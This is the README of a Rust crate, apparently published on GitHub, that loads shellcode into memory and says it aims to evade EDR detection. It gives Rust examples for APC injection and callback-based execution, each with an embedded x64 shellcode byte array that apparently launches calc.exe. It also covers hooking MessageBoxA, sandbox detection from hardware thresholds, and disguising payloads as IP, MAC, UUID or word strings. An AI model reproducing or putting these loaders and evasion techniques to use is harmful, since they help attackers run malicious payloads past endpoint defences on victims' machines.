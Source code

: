 # shellcode-loader
## 一个在内存中加载二进制shellcode的rust crate

## 目录

- [shellcode-loader](#shellcode-loader)
  - [一个在内存中加载二进制shellcode的rust crate](#一个在内存中加载二进制shellcode的rust-crate)
  - [目录](#目录)
  - [功能特性](#功能特性)
  - [安装使用](#安装使用)
  - [加载方式：](#加载方式)
    - [1.加载器](#1加载器)
    - [2.hook系统函数](#2hook系统函数)
  - [对抗操作：](#对抗操作)
    - [1.沙箱检测：](#1沙箱检测)
    - [2.obf混淆：](#2obf混淆)

## 功能特性
加载shellcode或其它代码，尝试绕过EDR检测，包含了多种加载方式以及对抗机制。

## 安装使用
通过cargo导入即可
```
cargo add shellcode-loader
```

## 加载方式：

### 1.加载器
输入bin文件、字节码，直接加载到内存执行
- `APC注入`：向挂起的线程的APC队列中添加任务来执行shellcode
- `callback调用`：调用合法的Windows函数，将它的回调函数改为我们自己的shellcode从而触发执行

示例：APC注入：
```
use shellcode-loader::loads::apc;
#[test]
pub fn test_1(){
    let buf: [u8; 276] = [0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,
        0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,
        0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,
        0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,
        0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,
        0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,
        0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x8b,0x80,
        0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,
        0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,
        0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,
        0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,
        0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,
        0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,
        0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,
        0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,
        0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,
        0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,
        0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,0x00,
        0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,0x31,
        0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,
        0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,
        0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,
        0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x63,0x61,0x6c,0x63,
        0x2e,0x65,0x78,0x65,0x00];
        let _=apc(&buf);
}
```

示例：callback调用：
```
use shellcode-loader::loads::callback;
#[test]
pub fn test_callback(){
    let buf: [u8; 276] = [0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,
        0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,
        0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,
        0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,
        0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,
        0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,
        0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x8b,0x80,
        0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,
        0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,
        0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,
        0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,
        0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,
        0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,
        0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,
        0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,
        0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,
        0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,
        0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,0x00,
        0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,0x31,
        0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,
        0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,
        0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,
        0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x63,0x61,0x6c,0x63,
        0x2e,0x65,0x78,0x65,0x00];
    let _=callback(&buf);
    }
```

### 2.hook系统函数
hook系统函数入口点，跳转到自定义函数执行
- `hook messageBoxA`：hook messageBoxA函数，在调用messageBoxA时跳转到自定义的函数执行

示例：hook messageBoxA：
```
use shellcode-loader::hook::hook_message_box_a_hook;
#[test]
    pub fn test_hook_message_box_a_hook(){
        fn hello(){
            //你自己定义的任意函数
            println!("hello hook!");
        }

        hook_message_box_a_hook(hello);
    }
```

## 对抗操作：
### 1.沙箱检测：
通过CPU数量、RAM大小、进程数量、磁盘大小来判断是否为沙箱

示例：沙箱检测：
```
use shellcode-loader::sandbox::is_sandbox;
#[test]
fn test_is_sandbox(){
    const MAX_CPU_COUNT:u32=4;
    const MAX_RAM_SIZE:u32=8;
    const MAX_PROCESS_COUNT:u32=100;
    const MAX_DISK_SIZE:u32=60;

    println!("isSandbox?{}!",shellcode_loader::sandbox::is_sandbox(MAX_CPU_COUNT, MAX_RAM_SIZE, MAX_PROCESS_COUNT, MAX_DISK_SIZE));
}
```

### 2.obf混淆：
读取bin文件并混淆，运行时动态解密

包含以下两个函数：
- `obfuscate_file`：混淆函数，传入bin文件路径、选择的混淆方式，支持以下混淆方式：
  - `ipv4`
  - `ipv6`
  - `mac`
  - `uuid`
  - `words`
- `deobfuscate_file`：解混淆函数，传入混淆后的Vec数组、选择的混淆方式。


示例：obf混淆、解混淆：
```
use crate::obf::{obfuscate_file,deobfuscate_data};
#[test]
pub fn test_obf(){
    // 1. 读取bin文件并混淆
    let obfuscated_data = obfuscate_file("./src/obf/test.bin", "words").unwrap();
        
    // 2. 解混淆得到字节数组
    let buf = deobfuscate_data(&obfuscated_data, "words").unwrap();
        
    // 3.可以调用其它的函数，传入返回的buf即可，Vec会自动解引用为buf数组无需手动替换
    apc(&buf);
}
```